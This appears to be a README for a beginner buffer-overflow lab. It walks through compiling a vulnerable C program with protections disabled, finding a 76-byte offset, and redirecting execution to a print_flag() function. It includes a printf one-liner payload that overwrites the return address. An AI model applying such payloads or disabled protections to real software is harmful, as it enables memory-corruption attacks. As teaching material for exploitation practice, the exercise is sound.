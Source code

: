 # Program00 - Basic EIP Control via Buffer Overflow

## Description
This exercise demonstrates controlling program execution by overwriting the return address to redirect to a `print_flag()` function.

## Files
- `vuln00.c`: Vulnerable C program
- `payload.py`: Exploit generator
- `pattern.py`: Offset calculator
- `Approach.md`: Personal notes
- `Description.md`: Learning objectives

## How to Reproduce

1. Compile the program:
```bash
gcc -m32 -fno-stack-protector -z execstack -no-pie vulnP1.c -o vulnP1
```

2. Find the offset (76 bytes in this case):
```bash
python3 pattern.py
```

3. Generate the payload:
```bash
python3 payload.py
```

4. Execute the exploit:
```bash
./vuln00 < payload_func
```

5. Alternative Execution:
```bash
printf "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xd5\x91\x04\x08" | ./vuln00
```

## Key Learnings
- Finding return address offset
- Converting addresses to little-endian
- Crafting precise payloads
- Redirecting program execution